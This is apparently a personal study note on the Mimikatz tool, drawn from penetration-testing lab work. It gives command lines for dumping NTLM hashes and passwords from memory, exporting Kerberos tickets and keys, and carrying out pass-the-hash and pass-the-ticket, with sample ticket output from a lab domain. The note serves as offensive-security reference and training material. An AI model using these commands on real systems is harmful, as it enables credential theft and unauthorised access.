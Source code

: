 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Mimikatz is a windows tool for extracting plaintext passwords, hashes, PIN codes, and kerberos tickets from memory. It is also capable of performing Pass-the-Hash, Pass-the-Ticket, or build *Golden* tickets.
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of the tool that can be run on linux systems.

## Installation
Pre-built binaries available in the git repo: https://github.com/gentilkiwi/mimikatz/releases
## Documentation
**Cheatsheet:** 
**Website:** https://github.com/gentilkiwi/mimikatz
## Usage
### Obtaining Hashes & Tickets
```cmd
# Obtain NTLM hashes for users
C:\> mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit

# Obtain Kerberos Tickets (This potentially doesn't work for some W10 versions as it uses the wrong encryption)
C:\> mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit

C:\> dir *.kirbi

<SNIP>
-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-johnny@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
<SNIP>

```
> For the tickets:
> - If it ends with `$` (Result 2 above) then it corresponds to the computer account (allowing the system to interact with Active Directory)
> - User tickets have the user's name (Result 1 above) followed by an `@` then the service name and domain. It follows the format `[random_value]-username@service-domain.local.kirbi`
> - If a user ticket has the service `krbtgt` then it is the [[Kerberos#Ticket Granting Ticket (TGT)|TGT]] of that account.

### Exporting Kerberos Keys
Keys are not the same as tickets, they are encryption keys that Kerberos uses for creating TGTs.
```cmd
C:\> mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

### Pass-the-Hash
Using the `sekurlsa::pth` module we can perform a pass-the-hash attack. It starts a process using the user's hash.
```cmd
C:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /NTLM:<hash> /domain:<AD_domain> /run:cmd.exe" exit
```
> We can specify any program in the `/run:` flag to launch any program but a shell is often most useful.

### Pass the Ticket
Using the `kerberos::ptt` module we can perform a pass-the-ticket attack using a `.kirbi` ticket file.
```cmd
C:\> mimikatz.exe privilege::debug "kerberos::ptt <ticket_file> exit
```